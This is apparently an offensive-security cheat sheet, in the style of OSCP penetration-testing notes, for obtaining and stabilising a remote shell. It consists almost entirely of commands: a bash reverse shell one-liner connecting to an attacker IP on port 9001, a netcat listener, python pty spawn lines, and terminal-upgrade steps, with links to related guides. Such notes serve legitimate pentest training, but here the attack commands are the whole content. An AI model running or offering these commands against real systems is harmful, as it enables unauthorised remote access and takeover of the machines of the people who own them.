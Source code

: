 
```
bash -c 'bash -i >& /dev/tcp/<attackerIP>/9001 0>&1'
```

```
nc -lvnp 9001
```

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

CTRL + Z
stty raw -echo
fg
<return>
export TERM=xterm

https://sushant747.gitbooks.io/total-oscp-guide/content/spawning_shells.html

https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/


```
$ export SHELL=bash
$ export TERM=xterm256-color
$ stty rows 38 columns 116
```

## shell stability:

```
script /dev/null -c /bin/bash
CTRL + Z
stty raw -echo; fg
Enter twice, and 
export TERM=xterm
```
